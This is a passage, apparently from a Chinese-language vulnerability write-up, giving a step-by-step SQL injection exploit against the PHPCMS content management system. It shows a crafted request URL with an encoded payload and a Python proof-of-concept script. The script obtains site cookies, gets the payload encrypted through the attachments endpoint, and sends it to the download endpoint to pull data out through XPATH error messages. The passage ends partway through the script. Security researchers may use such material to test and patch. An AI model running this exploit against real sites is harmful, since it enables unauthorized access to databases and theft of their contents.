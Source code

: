 ####第三步

带上页面获取的_att_json然后构造带入执行就好了

```
http://127.0.0.1/phpcms/index.php?m=content&c=down&a=init&a_k=a4ccFfjVcOKqub4EbK66IZvqFPm2zuSaSmrcy-Hzq7RM4eTO9J3Zw7ZUiI8LX5dup9GJWjFQmTjxfJpdp6cvIm5Ps9-HKDXh7eS9Ir1lnZhfrmEtJ8RF9eyjB-GNmojU0fZ4yEacluZaEf3lR_oiBhIGb6mVggA9uaZx3Q6UO1BPW6LDm3M
```

```python
 step3 = url + '/index.php?m=content&c=down&a_k=' + encode_payload
    #print 'step3:',step3
    r = requests.get(step3, cookies=cookies)
    result = re.findall('XPATH syntax error: \'(.*?)\'', r.content)
    print result

```

![7](phpcms-pic/7.png)

#### 附上python脚本

```python
import requests
from urllib import quote
import re

def poc(url, payload):
    step1 = '{}/index.php?m=wap&a=index&siteid=1'.format(url)

    r = requests.get(step1)
    #print r.cookies
    cookies = {}

    for cookie in r.cookies:
        if '_siteid' in cookie.name:
            userid = cookie.value
            print 'userid:'+userid
            cookie_head = cookie.name[:6]
            cookies[cookie_head + '_userid'] = cookie.value
            cookies[cookie.name] = cookie.value
            print cookies

    step2 = "{}/index.php?m=attachment&c=attachments&a=swfupload_json&src={}".format(url, quote(payload))
    #print 'step2:', step2, cookies
    r = requests.get(step2,cookies=cookies)
    for cookie in r.cookies:
        if '_att_json' in cookie.name:
            encode_payload = cookie.value
            print 'encode_payload:'+encode_payload
```